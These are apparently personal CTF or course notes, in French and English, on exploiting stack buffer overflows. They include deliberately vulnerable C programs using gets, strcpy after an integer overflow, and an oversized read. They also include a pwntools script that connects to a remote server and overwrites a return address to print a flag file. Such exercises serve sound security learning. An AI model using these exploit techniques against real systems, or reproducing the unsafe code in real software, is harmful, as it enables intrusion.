 
## Stack

```c
#include #include #include 
int main (int argc , char **argv ) 
{ 
	volatile int modified ; 
	char buffer [64]; 
	modified = 0 ; 
	gets(buffer);  // Get string to buffer => no size check
	
	if (modified != 0 ) { 
		printf ("you have changed 'modified' \n"); // dead code normally
		} 
	else { printf ("Try again? \n"); } }
```

## Example 1

```c
  
static void print_file(const char* def, const char* file)  
{  
    char buf[100];  
    FILE* f;  
    int a = 0xc354;  
  
    f = fopen(file, "r");  
    if (f)  
    {  
        while (fgets(buf, sizeof(buf), f))  
            PRINTF("%s", buf);  
  
        fclose(f);  
    }  
    else  
        PRINTF("%s\n", def);  
}  
  
  
char glb_buf[0x2000] = {0}; // 8192  
  
char *get_data() {  
    if (!fgets(glb_buf, sizeof(glb_buf), stdin)) {  
        return NULL;  
    }  
  
    return glb_buf;  
}  
  
#define BANNER_FILE "banner.txt"  
#define SECURE_PASSWD "APasswordSoSecureItIsImpossibleToFind"  
#define MAX_SIZE 40 //0x28  
#define MIN_SIZE 8  
  
void handle_client(int fd)  
{  
    char buf[MAX_SIZE];  
    char *tmp;  
    char sz; // 1 byte [0,255] 0 FF [8,0x28(40)]  
  
    print_file("Welcome to this secure API", BANNER_FILE);  
  
    PRINTF("Enter password:\n");  
  
    tmp = get_data();  
    sz = strlen(tmp); // if plus than 255 ?  
  
    if (sz < MIN_SIZE || sz > MAX_SIZE) {  
        PRINTF("INVALID PASSWORD\n");  
        return;  
    }  
  
    // our password has a valid size, copy because we will want to call get_data again  
    strcpy(buf, tmp); // with tmp we can get over the buffer ? // call get_data and then strcmp?  
  
    if (!strcmp(buf, SECURE_PASSWD)) { // replace strcmp with print file and there arg ?  
        PRINTF("You are authenticated!\n");  
    }  
    else {  
        PRINTF("Wrong password!\n");  
    }  
  
}
```

Ici, après le int overflow, on peut faire un buffer overflow

### Trouver le padding 

Generate a pattern with : https://wiremask.eu/tools/buffer-overflow-pattern-generator/

Start : ```strace -f ./exo```

```python
buf = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A'  
target.sendline(buf)
```

![[Pasted image 20231117213359.png]]

![[Pasted image 20231117213504.png]]

Then the offset is 57 => acces à esp

On peut overwrite l'addresse de retour de la fonction

@addr of the function we want to call (Look of the addr in IDA if no pie)
@ret de la function (Generalement exit)
@first arg 
@other arg

```python
from pwn import * # CONNECT:  
target = remote("163.172.39.203", 9020) # TCP connection on port 9000  
#target = remote("0.0.0.0", 9000) # TCP connection on port 9000  
# target = process("./exo") # launch exercise exo100  
  
  
buf = b'a' * 57  
#buf += p32(0x80494A9) # get_data  
buf += p32(0x080493F6) # print_file  
buf += p32(0x0804C034) # exit  
buf += p32(0x0804A05C) # 1st arg : on s'en fou  
buf += p32(0x804c1a4) # 2nd arg : end of glb_buf  
  
# Add padding for overflow  
if (len(buf) % 255 < 8):  
    size = 295  
elif (len(buf) % 255 > 40):  
    size = 264-len(buf)  
else:  
    size = 0  
#size = 183  
print("size: %s" % hex(size))  
print("len buf: %s" % hex(len(buf)))  
print("len buf + size: %s" % hex(len(buf)%255 + size) )  
buf += b'b' * (size - 4) # cat for flag  
buf += b'flag\0' # Add flag at the end of the glb_buf  
target.sendline(buf)  
  
print("sending...")  
target.sendline(buf)  
print("recv...")  
  
for i in range (100) :  
    print(target.recvline())
```

![[Pasted image 20240410155324.png]]

To find offset
pattern create 200
take first value of the top of the stack and pattern_offset

\[.]\s.*process.*\n

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vuln() {
        char name_buffer[0x20];
        read(0, name_buffer, 0x1f);
        printf("Hello, %s\n; send me your message now: ", name_buffer);
        fflush(stdout);
        read(0, name_buffer, 0x200);
}

int main() {
        printf("Enter your name: ");
        fflush(stdout);
        vuln();
        return 0;
}
```
